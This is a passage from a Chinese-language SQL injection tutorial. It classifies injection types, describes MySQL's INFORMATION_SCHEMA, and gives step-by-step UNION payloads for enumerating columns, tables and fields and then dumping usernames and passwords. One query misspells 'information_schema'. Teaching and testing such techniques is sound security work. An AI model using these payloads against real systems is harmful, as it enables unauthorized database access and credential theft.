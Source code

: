 > <h2 id="2">0x02 SQL注入的分类</h2>
#### 按数据类型分
    * 数值型 
    * 字符型
#### 按HTTP提交的方法分
    * GET
    * POST
#### 按注入方式分
    * 报错注入
    * 盲注
        # 延时注入
        # 布尔注入
    * UNION
#### 编码问题
    宽字节注入(GBK)

> <h2 id="3">0x03 Mysql数据库的特点</h2>
```
主要是说MySQL 5.0以上版本的INFORMATION_SCHEMA这个表，它里面存储了MYSQL所维护的所有其他数据库的信息，如数据库名，数据库的表，表中的字段，以及字段值。

下面写一下主要的表
    * SCHEMATA 存储mysql所有数据库的基本信息，包括数据库名
        # SCHEMA_NAME 这个字段存储了数据库名
    * TABLES 存储mysql中所有表的信息
        # TABLE_SCHEMA 表所在的数据库
        # TABLE_NAME 表名
    * COLUMNS 存储mysql中所有列的信息
        # TABLE_NAME 字段所在的表
        # COLUMN_NAME 字段名
```

> <h2 id=4>0x04 手工注入流程</h2>
* 先找到注入点，根据情况进行注入
#### 假设注入点存在(mysql)
1. 获取字段数
```sql
1. order by n #通过不断改变n的值,来观察反应获取字段数
2. union select n1,n2,... #通过不断增加字段观察页面反应获取字段数
```
2. 获取当前数据库名（假设字段数为2）
```sql
1. select 1,database()
```
3. 获取当前库中的表
```sql
1. select 1,group_concat(table_name) from information_schema.tables where table_schema = database()
# group_concat()这个函数可以把索引到的数据拼接成一组然后返回。
2. select null,null,...,table_name from information_schema.tables where table_schema=database() limit 0,1
#这种情况下的话，一次只会返回一条我们需要的数据，那就要修改Limit后面的两个数字，没获取一次就全部+1
```
4. 获取当前表中的字段（假设这里已经获取到了users表）
```sql
select 1,group_concat(column_name) from infromation_schema.columns where table_schema = database() and table_name = "users"
```
5. 获取各个字段的值(假设获取到了username，password两个字段)
```sql
select 1,group_concat(username,'-',password) from users
```
* 上面其实主要是用于可以看到数据的注入方法，例如报错注入，union注入，如果碰到盲注的话，方法可能会稍有不同